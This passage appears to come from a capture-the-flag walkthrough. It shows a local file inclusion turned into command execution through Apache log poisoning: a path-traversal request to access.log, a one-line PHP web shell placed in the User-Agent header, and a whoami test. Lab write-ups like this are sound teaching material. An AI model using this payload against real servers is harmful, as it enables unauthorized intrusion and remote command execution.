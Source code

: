 Now that we have found an LFI, our next target is to gain an reverse shell. For this we can look into the apache log file stored at `/var/log/apache2/access.log`.

![access_logs](./.images/access_logs.png)

From the access logs it can be seen that along with the path that we are trying to access our User-Agent is also getting logged. We can add a PHP code in the User-Agent header using Burp Suite and with the help of that gain a reverse shell.

> The output is not displayed properly on the webpage, so switch to `view-source` on your browser.

**Steps to get a Reverse Shell via User-Agent**

1. Capture a request to `/test.php?view=/var/www/html/development_testing/..//..//..//log/apache2/access.log` in Burp Suite and send it to repeater.

2. Add the following code somewhere in the `User-Agent` header value:

   ```php
   <?php system($_GET['cmd']); ?>
   ```

3. Append `&cmd=whoami` to the GET request. Here, all that we are doing is passing `whoami` string to the `cmd` variable would get processed by the PHP code in the User-Agent and we would get the output of the command in the logged User-Agent value in the `access.log` file. 

   ![burp_whoami](./.images/burp_whoami.png)
